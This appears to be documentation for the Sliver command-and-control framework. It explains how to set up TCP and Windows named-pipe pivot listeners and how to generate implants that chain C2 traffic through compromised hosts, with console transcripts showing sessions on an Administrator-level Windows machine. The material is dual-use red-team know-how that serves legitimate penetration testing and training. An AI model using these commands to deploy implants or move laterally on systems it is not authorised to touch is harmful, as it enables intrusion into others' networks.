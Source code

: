⚠️ **IMPORTANT:** Pivots in Sliver are used for specifically pivoting C2 traffic, not to be confused with port forwarding `portfwd`, which is used for tunneling generic tcp connections into a target environment.

⚠️ **IMPORTANT:** Pivots can only be used in "session mode" (we may add bacon support later)

Pivots allow you to create "chains" of implant connections, for example if you're trying to deploy a pivot into a highly restricted subnet that cannot route traffic directly to the internet you can instead create an implant that egresses all traffic via another implant in a less restricted subnet. Sliver v1.5 and later pivots can be arbitrarily nested, for example a pivot A can connect thru pivot B to a third egress implant.

In Sliver you use an existing session to create a "pivot listener" and then generate new pivots that can connect back to that listener, just as you would with other C2 protocols/endpoints.

Pivots perform an [authenticated peer-to-peer cryptographic key exchange](/docs?name=Transport+Encryption) regardless of the underlying pivot protocol, therefore pivots can only communicate with other implants generated by the same server; this restriction cannot be disabled.

## TCP Pivots

TCP pivots are implemented in pure Go and are supported on all platforms.

```
[server] sliver (PRIOR_MANTEL) > pivots tcp

[*] Started tcp pivot listener :9898 with id 1

[server] sliver (PRIOR_MANTEL) > pivots

 ID   Protocol   Bind Address   Number Of Pivots
==== ========== ============== ==================
  1   TCP        :9898                         0
```

We can now use `generate --tcp-pivot 192.168.1.1:9898` to generate an implant that will connect to the pivot listener, where `192.168.1.1` is the local IP of the server on which we started the listener.

## Named Pipe Pivots (SMB)

Named pipe pivots are only supported on Windows. Select a session to start a named pipe listener, and then use the `--bind` flag to specify a pipe name. Pipes are automatically started on the local machine so you only need to specify a name, remote clients are always allowed to connect to the pipe, but the default ACL will only allow the current user/group. You can allow all user/groups by using the `--allow-all` flag:

```
[*] Session a2615359 WARM_DRIVEWAY - 192.168.1.178:59290 (WIN-1TT1Q345B37) - windows/amd64 - Mon, 07 Feb 2022 10:09:20 CST

[server] sliver > use a2615359-b0a4-4463-820b-f4dbe6fb2c30

[*] Active session WARM_DRIVEWAY (a2615359-b0a4-4463-820b-f4dbe6fb2c30)

[server] sliver (WARM_DRIVEWAY) > pivots named-pipe --bind foobar

[*] Started named pipe pivot listener \\.\pipe\foobar with id 1
```

Next we generate a named pipe implant using `generate --named-pipe 192.168.1.1/pipe/foobar` note here we may need to specify the IP address of the listener: `192.168.1.1`. The syntax is `<host>/pipe/<pipe name>`, note that `.` is equivalent to `127.0.0.1`. This is just the standard syntax for Windows named pipes.

```
[*] Session 13f9ee6b ROUND_ATELIER - 192.168.1.178:59290->WARM_DRIVEWAY-> (WIN-1TT1Q345B37) - windows/amd64 - Mon, 07 Feb 2022 10:15:11 CST

[server] sliver (WARM_DRIVEWAY) > sessions

 ID         Name            Transport   Remote Address                         Hostname          Username                        Operating System   Last Check-In                   Health
========== =============== =========== ====================================== ================= =============================== ================== =============================== =========
 13f9ee6b   ROUND_ATELIER   pivot       192.168.1.178:59290->WARM_DRIVEWAY->   WIN-1TT1Q345B37   WIN-1TT1Q345B37\Administrator   windows/amd64      Mon, 07 Feb 2022 10:15:11 CST   [ALIVE]
 a2615359   WARM_DRIVEWAY   mtls        192.168.1.178:59290                    WIN-1TT1Q345B37   WIN-1TT1Q345B37\Administrator   windows/amd64      Mon, 07 Feb 2022 10:15:11 CST   [ALIVE]
```

⚠️ **IMPORTANT:** In some environments you may need to use the `--allow-all` flag when starting the pviot listener to allow all users/groups
